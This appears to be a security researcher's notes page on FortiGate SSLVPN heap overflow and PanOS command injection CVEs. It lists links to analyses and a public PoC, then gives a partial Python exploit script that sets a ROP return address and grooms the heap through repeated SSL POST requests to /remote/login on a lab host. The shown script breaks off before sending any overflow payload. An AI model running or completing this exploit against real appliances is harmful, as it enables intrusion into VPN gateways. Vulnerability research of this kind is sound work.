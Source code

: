 CVE：
https://bestwing.me/CVE-2023-27997-FortiGate-SSLVPN-Heap-Overflow.html
https://bestwing.me/PanOS-CVE-2024-3400-command-inject.html
https://blog.lexfo.fr/xortigate-cve-2023-27997.html
https://bestwing.me/CVE-2022-42475-FortiGate-SSLVPN-HeapOverflow.html
https://wzt.ac.cn/2022/12/15/CVE-2022-42475/#%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90
https://ioo0s.art/2023/02/09/CVE-2022-42475/#%E6%9E%84%E9%80%A0%E6%89%A7%E8%A1%8C-rop
http://blog.e4l4.com/posts/id=58/
CVE-2023-27997 FortiGate SSLVPN 堆溢出漏洞分析与利用 
https://www.cnblogs.com/L1nyun/articles/18421524
CVE-2022-42475 FortiGate SSLVPN 堆溢出漏洞分析与利用(奇安信攻防社区)
https://forum.butian.net/share/2166
FortiGate SSLVPN CVE-2024-21762漏洞利用分析
https://mp.weixin.qq.com/s?__biz=Mzk0OTU2ODQ4Mw==&mid=2247484811&idx=1&sn=2e0407a32ba0c2925d6d857f4cdf7cbb&chksm=c3571307f4209a110d6b28cea9fe59ac0f0a2079c998a682e919860f397ea647fa0794933906&mpshare=1&scene=1&srcid=0313EaETjGzEAvOdByUt6ovU&sharer_shareinfo=1fce317285bafe87be6a66e8b64ed02b&sharer_shareinfo_first=1fce317285bafe87be6a66e8b64ed02b#rd
https://github.com/h4x0r-dz/CVE-2024-21762/blob/main/poc.py
ssl源码：
https://github.dev/openssl/openssl/tree/openssl-3.0.0
fortigate debug环境搭建
https://wzt.ac.cn/2024/04/02/fortigate_debug_env2/#%E5%8F%82%E8%80%83%E8%B5%84%E6%96%99


```python
import socket
import ssl
import time
import argparse
from pwn import *

hostname = "192.168.0.193"
port = 10443

path = "/remote/login".encode()

def create_ssock(target, port):
	sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	sock.connect((target, port))
	return sock

def create_ssl_ctx(target,port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target, port))
    ctx = ssl._create_unverified_context()
    sock = ctx.wrap_socket(sock)
    return sock


ret = 0x000000000043a016

# payload = b"x" * 0x50000+b'a'*0x2e00+ b'b'*0xa0 #(3613 - 192)

def do_exploit(padding):
    socks = []
    for i in range(60):
        sk = create_ssl_ctx(hostname,port)
        data = b"POST " + path + b" HTTP/1.1\r\nHost: 192.168.0.193\r\nContent-Length: 100\r\nUser-Agent: Mozilla/5.0\r\nContent-Type: text/plain;charset=UTF-8\r\nAccept: */*\r\n\r\na=1"
        sk.sendall(data)
        socks.append(sk)

    for i in range(20, 40, 2):# 10
        sk = socks[i]
        sk.close()
```